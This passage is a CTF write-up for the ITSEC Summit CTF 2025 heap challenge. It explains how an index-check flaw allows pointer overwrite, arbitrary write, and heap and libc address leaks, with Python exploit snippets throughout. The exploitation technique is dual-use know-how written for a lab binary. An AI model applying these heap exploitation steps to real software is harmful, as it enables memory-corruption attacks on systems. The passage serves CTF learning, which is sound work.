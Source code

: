 When requesting the index, it checks whether the bottom byte contains a null byte. If so, it returns a `read` result with the length of the input. This way, we can allocate up to the length of the input, which is 8 chunks.

Next, we can see that the structure of the `title` and `alarm` only stores 4 chunks.

![alt](../../../img/CTFNational/ITSEC_Summit_CTF_2025/Chunk.png)

If we allocate `title` at idx 4, it will overwrite the idx 0 pointer, allowing us to perform arbitrary writes.

```python
def write(where, what):
    edit(4, -1, -1, p64(where))
    edit(0, what, -1, b"\x00")
    edit(4, -1, -1, p64(heap+0x2a0)) # original pointer address
```

Now we just need to leak the address. For the heap, simply allocate from the back and display idx 4.

```python
for i in reversed(range(9)):
    alloc(i, -1, -1, b"\x00")
show(4)
heap_leak = u64(ru(b" selama").ljust(8, b"\x00"))
heap = heap_leak & ~0xfff - 0x1000
```

To leak the libc address, we can create a pointer to the heap header and overwrite it to size 0x5d1. When we `free` it, it will go to the unsorted bins.

```python
write(heap+0x298, 0x5d1) # pointer chunk 0 - 0x8
free(0)
show(0)
ru(b"selama ")
libc_leak = int(ru(b" detik"))
libc.address = libc_leak - 0x21ace0
alloc(0, -1, -1, b"\x00") # Fix idx 0
```

Before writing:
![alt](../../../img/CTFNational/ITSEC_Summit_CTF_2025/BeforeWrite.png)
